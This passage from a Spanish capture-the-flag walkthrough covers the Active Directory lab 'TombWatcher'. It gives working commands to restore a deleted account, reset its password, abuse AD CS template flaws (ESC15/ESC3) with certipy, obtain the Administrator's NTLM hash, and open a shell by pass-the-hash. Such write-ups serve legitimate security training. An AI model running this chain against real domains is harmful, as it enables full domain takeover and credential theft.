La respuesta indica que el objeto buscado es una cuenta de usuario llamada **`cert_admin`** que se encuentra **eliminada** (`Deleted : True`) dentro de la papelera de reciclaje de Active Directory, mostrando su ruta, su identificador único GUID y confirmando que su nombre de cuenta original sigue registrado en el sistema.

<p align="center">

</p>

Al intentar restaurar la cuenta eliminada `cert_admin` mediante su SID original, surgió un conflicto de nombres porque el directorio ya contenía un objeto activo ocupando el mismo identificador de cuenta (`sAMAccountName`). Si se restauraba de forma directa o se creaba un usuario nuevo sin tener en cuenta este solapamiento, el sistema generaba un objeto distinto con un `ObjectSid` diferente al `-1111`, lo cual invalidaba los permisos de inscripción (_Enroll_) necesarios sobre la plantilla de certificados.

```
Get-ADUser -Identity "cert_admin" -Properties * | Format-List Name, SamAccountName, ObjectSid, UserPrincipalName, MemberOf, ServicePrincipalName, DoesNotRequirePreAuth, PasswordLastSet, LastLogonDate
```

<p align="center">

</p>

Para restaurarlo, modificamos el nombre del usuario **cert_admin** a **cert_admin_restaurado**

```
Get-ADObject -Filter "objectSid -eq 'S-1-5-21-1392491010-1358638721-2126982587-1111'" -IncludeDeletedObjects | Restore-ADObject -NewName "cert_admin_restaurado"
```

El siguiente comando fue la restauración:

```
Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf" -NewName "cert_admin_restaurado" -TargetPath "CN=Users,DC=tombwatcher,DC=htb"
```

Nuevamente, realizamos el comando que hicimos al principio:

```
Get-ADUser -Identity "cert_admin" -Properties * | Format-List Name, SamAccountName, ObjectSid, UserPrincipalName, MemberOf, ServicePrincipalName, DoesNotRequirePreAuth, PasswordLastSet, LastLogonDate
```

<p align="center">

</p>

Hemos obtenido el usuario que quería desde un principio.

Por tanto, desde la sesión del usuario **John** como tiene permisos **GenericAll** sobre `cert_admin`, puedes forzar y cambiar su contraseña sin necesidad de conocer la antigua. Esto te permite tomar el control total de esa cuenta restaurada para luego explotar sus privilegios con los certificados.

<p align="center">

</p>

```
Set-ADAccountPassword cert_admin -NewPassword (ConvertTo-SecureString 'danidanidani' -AsPlainText -Force)
```

#### Verificación de credenciales

A continuación, con la herramienta **netexec** verificamos  el usuario **cert_admin**

```
netexec smb dc01.tombwatcher.htb -u cert_admin -p 'danidanidani'
```

<p align="center">

</p>

### Shell como Administrator

#### ESC15

Una vez confirmado, usaremos la herramienta **certipy-ad** para encontrar alguna plantilla ADCS vulnerable.

```
certipy-ad find -target DC01.tombwatcher.htb -u cert_admin@tombwatcher.htb -p danidanidani -k -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin_restaurado
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin_restaurado
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin_restaurado
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
      ESC17                             : Enrollee supplies subject and template allows server authentication.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
      ESC17                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

El informe de Certipy muestra que la plantilla **WebServer** tiene dos vulnerabilidades críticas (**ESC15** y **ESC17**) debido a una combinación peligrosa de configuraciones:

- **`Enrollee Supplies Subject : True`**: Permite que quien solicita el certificado escriba a quién pertenece en el campo _Subject Alternative Name (SAN)_.
    
- **Versión de esquema 1 (`Schema Version : 1`)**: Los permisos de inscripción están abiertos a ciertos usuarios, permitiendo abusos en cómo se aplican las políticas de las plantillas.

#### ¿Qué impacto real tiene esto?

El impacto es **crítico y total sobre el dominio**:

1. Como la cuenta `cert_admin_restaurado` tiene permisos de inscripción (`Enroll`) en esta plantilla, puedes solicitar un certificado digital a nombre de cualquier usuario del dominio.
    
2. Puedes inyectar en el certificado la identidad de un **Domain Admin** (por ejemplo, el Administrador principal del dominio).
    
3. Con ese certificado falso pero firmado legítimamente por la Autoridad de Certificación (`tombwatcher-CA-1`), puedes autenticarte en Active Directory y **comprometer por completo todo el dominio (Domain Takeover)**.

#### Explotación 

Este comando utiliza la herramienta **Certipy** para solicitar un certificado digital a la Autoridad de Certificación (`-ca tombwatcher-CA-1`) autenticándose con las credenciales de la cuenta recién recuperada y modificada (`-u cert_admin -p 'danidanidani'`). Aprovechando que esta cuenta posee permisos de inscripción sobre la plantilla vulnerable **`WebServer`**, la instrucción fuerza la inclusión del UPN del administrador del dominio en el campo del nombre alternativo de sujeto (`-upn administrator@tombwatcher.htb`), lo que constituye el paso clave para lograr el secuestro del dominio mediante la suplantación de identidad.

```
certipy-ad req -u cert_admin -p 'danidanidani' -dc-ip 10.129.232.167 -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 -template WebServer -upn administrator@tombwatcher.htb -application-policies 'Certificate Request Agent'
```

<p align="center">

</p>

Este comando utiliza **Certipy** para realizar un ataque de **inscripción en nombre de otro** (conocido como _ESC3_), aprovechando que la cuenta `cert_admin` actúa como un agente de solicitud (_Enrollment Agent_). Lo que hace es autenticarse con las credenciales de `cert_admin`, solicitar a la Autoridad de Certificación (`-ca`) un certificado basado en la plantilla de usuario (`-template User`) y forzar la emisión de dicho certificado **en nombre del Administrador del dominio** (`-on-behalf-of 'tombwatcher\Administrator'`), guardando el resultado en un archivo llamado `administrator.pfx`. Esto permite obtener un certificado válido del usuario con más privilegios del sistema para suplantar su identidad.

```
certipy-ad req -u cert_admin -p 'danidanidani' -dc-ip 10.129.232.167 -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 -template User -pfx administrator.pfx -on-behalf-of 'tombwatcher\Administrator'
```

<p align="center">

</p>

Este comando utiliza **Certipy** para realizar la fase final de autenticación (_PKINIT_) utilizando el archivo de certificado (`administrator.pfx`) que obtuviste en el paso anterior. Al presentar este certificado válido ante el controlador de dominio (`-dc-ip 10.129.232.167`), Active Directory confía en él y te otorga una sesión autenticada con los privilegios del usuario con mayor rango (el Administrador), permitiéndote obtener su hash NTLM o un ticket de Kerberos para lograr el **compromiso total del dominio (Domain Takeover)**.

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.167
```

<p align="center">

</p>

Obtenemos el hash del usuario **Administrator**

> f61db423bebe3328d33af26741afe5fc

**En resumen:** Primero consigues la **autorización** para pedir cosas por otros, luego **pides el certificado** de la víctima y, finalmente, **te logueas** con él (Paso 3).

#### Shell

```
evil-winrm-py -i dc01.tombwatcher.htb -u administrator -H f61db423bebe3328d33af26741afe5fc
```

<p align="center">

</p>

## Conclusión

TombWatcher es una máquina Windows de dificultad Media basada en Active Directory que requiere una cadena de explotación secuencial orientada a la mala configuración de ACLs y Servicios de Certificado (AD CS). El proceso de intrusión comienza utilizando credenciales iniciales para enumerar usuarios y explotar sucesivos vectores como `WriteSPN` (Kerberoasting), `AddSelf` sobre grupos, `ForceChangePassword`, y manipulación de permisos de propietario (`WriteOwner` y `GenericAll`) para escalar privilegios lateralmente entre distintas cuentas. La fase final de escalada hasta _Domain Admin_ se logra restaurando una cuenta eliminada (`cert_admin`) y abusando de las vulnerabilidades **ESC15** y **ESC17** en las plantillas de certificados de AD CS, lo que permite solicitar un certificado con el UPN del administrador y comprometer por completo el dominio mediante autenticación PKINIT.